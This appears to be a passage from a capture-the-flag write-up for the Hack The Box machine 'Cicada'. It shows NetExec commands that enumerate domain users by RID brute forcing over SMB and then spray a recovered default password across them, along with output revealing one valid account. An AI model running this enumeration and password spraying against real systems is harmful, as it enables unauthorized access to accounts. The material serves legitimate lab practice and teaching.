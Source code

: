 ## Gather valid users (via rid-brute-forcing)

Perform rid brute forcing:

```bash
nxc smb cicada.htb -u guest -p '' --rid-brute
```

Place them on a txt for our next steps:

```bash
nxc smb cicada.htb -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users.txt
```

The valid users gathered are:

```bash
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

## Password spraying

```bash
nxc smb cicada.htb-u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.180.83   445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```
